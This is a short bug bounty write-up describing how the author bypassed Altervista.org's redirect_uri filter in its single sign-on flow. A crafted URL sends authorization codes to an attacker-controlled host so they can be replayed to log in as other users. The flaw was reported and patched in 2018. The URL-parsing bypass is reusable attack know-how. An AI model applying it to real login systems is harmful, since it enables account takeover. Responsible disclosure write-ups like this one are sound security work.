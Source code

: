 # How I hacked Altervista.org
By @jacopoMii (https://www.facebook.com/jacopotediosi)<br>
How I hacked Altervista.org, and I found a vulnerability that allowed to steal access tokens

## Foreword
This was the first bounty I attended, and this is the first writeup I write in English.<br>
I'm just an Italian student with a strong wish to learn new IT-Security stuffs and with a strong belief about ethical hacking.<br>
If someone finds errors or wants to give me suggestions, please open here an issue or a pull request.

## About Altervista.org
From [Wikipedia](https://it.wikipedia.org/wiki/AlterVista):
>  AlterVista is an Italian web platform where you can open a website for free.
>  On AlterVista you can create a website with PHP, MySQL database and FTP access.
>  Use of the space is free but some additional services are subject to charges.
>  Altervista was bought by Mondadori spa in 2016 and today it hosts about 3 million sites.

Altervista permit you to manage your website via a comfortable web panel after logging in.

Altervista also has a [forum](http://forum.it.altervista.org/) where people can ask for programming questions and participate in community life:
![The Altervista forum](https://raw.githubusercontent.com/jacopotediosi/Writeups/master/Real/Altervista.org/img1.png)

## How the login system works
I wandered on Altervista for a while, until I noticed that if you have already logged in to the administration panel of your site, to log in on the forum you just have to click on the "Login" button, without having to retype your credentials; so I started studying how that button works:

It was a simple link for `https://aa.altervista.org/?client_id=altervista&response_type=code&redirect_uri=http://forum.it.altervista.org/`

If you are already authenticated, that page does nothing more than generate an "authorization_code" and then redirect you to `http://forum.it.altervista.org/login.php?do=login-aHR0cDovL2ZvcnVtLml0LmFsdGVydmlzdGEub3JnL2ZvcnVtLnBocA%3D%3D&authorization_code=XXXXXXXXXXXXXXXXXXX`<br>
The strange parameter "do" contains the word "login" and then the link "http://forum.it.altervista.org/forum.php" coded in base64 (I know, that's a strange choice).<br>
Parameter "authorization_code" contains the "authorization_code" generated before.<br>
If you aren't already authenticated, it before asks you for your username and password and then redirects you the same way.

## How I came to discover the vulnerability
The vulnerability is that if we can change the value of the "redirect_uri" get-parameter, we can create a special link that if clicked redirects the user to our servers instead of the altervista server, allowing us to steal the authorization_code that is added at the end of the url (and then login with profile of other people).

Unfortunately there seemed to be a filter on the parameter, which accepted only subdomains of it.altervista.org.

At this point I remembered a video of [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w):  "[HOW FRCKN' HARD IS IT TO UNDERSTAND A URL?!](https://www.youtube.com/watch?v=0uejy9aCNbI)", where he shows that often programmers make mistakes when they have to parse urls, especially when the input is not compliant with specifications.

Then I started fuzzing, until I found a way to bypass the filter:<br>
`https://aa.altervista.org/?client_id=altervista&response_type=code&redirect_uri=http://google.it/http://it.altervista.org/`

It redirects you as follow: ![We can steal access token](https://raw.githubusercontent.com/jacopotediosi/Writeups/master/Real/Altervista.org/img2.png)

So if instead of google.it we put our malicious server address here, we can steal the access token.<br>
And then login with it: `http://forum.it.altervista.org/login.php?do=login-aHR0cDovL2ZvcnVtLml0LmFsdGVydmlzdGEub3JnL2ZvcnVtLnBocA%3D%3D&authorization_code=XXXXXXXXXXXXXXXXXXX`

![enter image description here](https://raw.githubusercontent.com/jacopotediosi/Writeups/master/Real/Altervista.org/img3.png)

## Epilogue
I immediately reported my discovery to Altervista through [the appropriate form](https://it.altervista.org/feedback.php?who=feedback), and they fixed it almost immediately.<br>
As a reward, they added my name to the [thanks list](https://it.altervista.org/ringraziamenti.php): ![enter image description here](https://raw.githubusercontent.com/jacopotediosi/Writeups/master/Real/Altervista.org/img4.png)

## Timeline
- 02 January 2018: Started looking for vulnerabilities on Altervista.org
- 03 January 2018: Discovered vulnerability and sent a PoC to Security Team
- 04 January 2018: Patch went online and my name was added to thanks list
